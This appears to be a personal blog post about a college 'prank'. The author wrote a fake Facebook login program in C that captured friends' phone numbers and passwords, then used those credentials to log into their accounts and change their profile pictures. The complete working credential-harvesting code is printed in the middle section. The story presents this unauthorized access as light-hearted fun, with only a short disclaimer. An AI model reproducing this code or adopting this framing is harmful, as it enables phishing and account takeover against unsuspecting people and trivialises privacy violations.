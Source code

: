 ```yaml
---
title: C-razy Facebook Hack How I Pranked My Friend
date: 2024-08-18T09:45:17.1717+05:30
draft: false
tags:
  - hacking
  - prank
---
```



It was my first year of college, and we were all working in the Python lab. My friends, who didn’t really know much about computers, seemed like the perfect targets for a harmless prank. They were excited but didn’t have a clue about the technical stuff I was up to. I saw an opportunity to have a little fun, knowing they’d fall for it because they didn’t know much about programming.


### The Master Plan

I wanted to play a trick on my friends to show them how powerful C programming is. But it was all just a joke! Here’s how I did it:

**Creating the Fake Program**: I wrote a simple C program that looked like a Facebook login tool. But it was just a trick. The program would ask for their Facebook username and password, and then say “Facebook is down”!

**Playing the Prank**: I ran the program in front of my friends, and they typed in their phone numbers and passwords. I acted like I was trying to fix the problem, but I was really trying not to laugh.

**The Big Reveal**: After my friends left, I opened the file where I had saved their login information. I used it to log into their Facebook accounts and change their profile pictures to something really embarrassing and funny. Even I couldn’t help but laugh!”

### The Program

Here’s the mischievous code I used for the prank. **Disclaimer: This is for entertainment purposes only!**

```c
#include <stdio.h>

int main() {
    char phoneNumber[50];
    char password[50];
    FILE *file;

    // Open the file to store credentials
    file = fopen("credentials.txt", "a");
    if (file == NULL) {
        printf("Error opening file!\n");
        return 1;
    }

    // Ask for user details
    printf("Welcome to the Facebook Login Tool!\n");
    printf("Please enter your phone number: ");
    fgets(phoneNumber, 50, stdin);
    printf("Please enter your password: ");
    fgets(password, 50, stdin);

    // Store the credentials in a file
    fprintf(file, "Phone Number: %s", phoneNumber);
    fprintf(file, "Password: %s", password);

    // Close the file
    fclose(file);

    // Display a fake error message
    printf("Unable to reach Facebook at the moment. Please try again later.\n");

    return 0;
}

```

### What Happened Next

The next day, my friends came to college and told me that their Facebook profiles had been changed to show them in silly costumes or funny pictures. They were shocked and little scared.

They told me that their accounts had been hacked. But after some fun and teasing, I finally told them the truth - that I was the one who had done it as a prank. We all had a good laugh together and the fun came to an end.

### The Lesson

Here's the important part: **don't do this at home**. While my prank was just for fun, playing with people's personal information is not okay. It's important to respect people's privacy and use your coding skills in a good way.

### The Main Point

If you want to play a prank, make sure it's harmless and makes everyone smile. Use your coding skills for good things and keep your pranks light-hearted. Remember, there's a line between being funny and being mean online.

Happy coding, and may your pranks be fun and harmless!